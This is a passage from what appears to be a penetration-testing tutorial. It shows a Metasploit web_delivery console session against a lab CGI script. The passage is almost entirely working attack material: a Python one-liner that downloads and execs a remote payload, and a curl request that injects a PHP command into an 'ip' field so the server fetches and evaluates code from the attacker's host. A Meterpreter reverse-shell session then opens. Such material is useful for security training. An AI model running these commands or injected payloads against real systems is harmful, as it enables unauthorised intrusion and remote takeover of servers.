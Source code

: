 or we can exploit via curl after escaping the double quotes.  Note we use `--data-urlencode` to automatically encode for us:
```
msf exploit(web_delivery) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Using URL: http://0.0.0.0:8080/OKNzr8B59zWp
[*] Local IP: http://192.168.2.117:8080/OKNzr8B59zWp
[*] Server started.
[*] Run the following command on the target machine:
python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/OKNzr8B59zWp'); exec(r.read());"
msf exploit(web_delivery) > curl -X POST http://127.0.0.1/cgi-bin/example.pl --data-urlencode "ip=127.0.0.1;php -d allow_url_fopen=true -r \"eval(file_get_contents('http://192.168.2.117:8080/de3uw0'));\"&submitsubmit"
[*] exec: curl -X POST http://127.0.0.1/cgi-bin/example.pl --data-urlencode "ip=127.0.0.1;php -d allow_url_fopen=true -r \"eval(file_get_contents('http://192.168.2.117:8080/de3uw0'));\"&submitsubmit"

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   490    0   329  100   161  11490   5623 --:--:-- --:--:-- --:--:-- 11344
[*] 192.168.2.117    web_delivery - Delivering Payload
[*] Sending stage (33986 bytes) to 192.168.2.117
[*] Meterpreter session 3 opened (192.168.2.117:4444 -> 192.168.2.117:48144) at 2017-03-04 15:39:05 -0500
100  1132    0   971  100   161    440     73  0:00:02  0:00:02 --:--:--   440^CInterrupt: use the 'exit' command to quit
```
